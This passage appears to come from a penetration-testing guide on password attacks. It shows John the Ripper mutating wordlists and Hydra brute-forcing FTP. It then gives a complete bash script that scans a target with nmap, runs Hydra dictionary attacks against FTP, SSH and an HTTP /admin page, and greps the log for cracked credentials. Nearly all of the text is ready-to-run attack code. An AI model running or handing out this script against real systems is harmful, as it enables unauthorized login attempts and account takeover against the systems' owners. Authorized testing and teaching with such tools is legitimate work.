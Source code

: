 #### **Using John the Ripper for Password Mutation:**
```bash
# Create password variations
john --wordlist=base_passwords.txt --rules --stdout > mutated_passwords.txt
# Generate common password variations

# Use mutations with Hydra
hydra -L users.txt -P mutated_passwords.txt target_ip ftp
# Test password variations and common substitutions
```

### **⚙️ Multi-Tool Attack Script:**

```bash
#!/bin/bash
# complete_password_attack.sh - Comprehensive password testing

TARGET=$1
LOGFILE="attack_$(date +%Y%m%d_%H%M%S).log"

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_ip>"
    exit 1
fi

echo "[+] Starting comprehensive password attack on $TARGET" | tee $LOGFILE

# Phase 1: Service Discovery
echo "[+] Phase 1: Discovering services" | tee -a $LOGFILE
nmap -sV -p 21,22,23,80,443 $TARGET | tee -a $LOGFILE

# Phase 2: FTP Attack
if nmap -p 21 $TARGET | grep -q "open"; then
    echo "[+] Phase 2: FTP password attack" | tee -a $LOGFILE
    hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $TARGET ftp | tee -a $LOGFILE
fi

# Phase 3: SSH Attack
if nmap -p 22 $TARGET | grep -q "open"; then
    echo "[+] Phase 3: SSH password attack" | tee -a $LOGFILE
    hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $TARGET ssh | tee -a $LOGFILE
fi

# Phase 4: HTTP Attack
if nmap -p 80 $TARGET | grep -q "open"; then
    echo "[+] Phase 4: HTTP password attack" | tee -a $LOGFILE
    hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $TARGET http-get /admin | tee -a $LOGFILE
fi

echo "[+] Attack complete. Results saved to $LOGFILE"

# Phase 5: Extract successful credentials
echo "[+] Successful credentials found:"
grep "login:" $LOGFILE | grep -v "LOGIN FAILED"
```

---
